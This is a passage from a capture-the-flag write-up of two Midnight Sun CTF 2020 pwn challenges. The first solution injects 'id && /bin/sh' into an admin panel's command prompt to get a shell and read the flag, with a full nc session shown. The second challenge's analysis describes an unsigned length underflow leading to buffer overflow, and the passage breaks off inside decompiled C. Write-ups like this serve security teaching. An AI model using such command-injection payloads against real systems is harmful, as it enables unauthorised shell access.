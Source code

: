 > it just compare the first 2 bytes of `s`

### Solution


So, we can input `id && /bin/sh` to getshell

``` shell
$ nc admpanel-01.play.midnightsunctf.se 31337
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id && /bin/sh
uid=999(ctf) gid=999(ctf) groups=999(ctf)
ls -al
total 32
drwxr-xr-x 1 root ctf   4096 Apr  3 05:41 .
drwxr-xr-x 1 root root  4096 Apr  3 05:41 ..
-rwxr-x--- 1 root ctf  14408 Apr  3 13:09 chall
-r--r----- 1 root ctf     41 Apr  2 21:20 flag
-rwxr-x--- 1 root ctf     71 Apr  2 21:20 redir.sh
cat flag
midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}
```


## Admpanel2 (85pt)

### Description

> Oops, they patched it again!

### Attachment

[admpanel2](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/admpanel2/admpanel2)

### Analysis

In func `sub_40121A`, `maxlen` is an unsigned integer, if the return value of `snprintf` is nearly `0x100`, after 3 times `maxlen -= n` executed , maxlen will be a great integer. Buffer overflow will happen after input a long string.

```c
  maxlen = 0x100LL;
  n = snprintf(&buf, 0x100uLL, "LOG: [OPERATION: %s] ", a1, a2);
  if ( n < 0 )
    exit(1);
  ptr += n;
  maxlen -= n;         // first 
  if ( authed )        // authed=1 after [1]auth 
  {
    n = snprintf(ptr, maxlen, "[USERNAME: %s] ", var_138);
    if ( n < 0 )
      exit(1);
    ptr += n;
    maxlen -= n;      // second 
```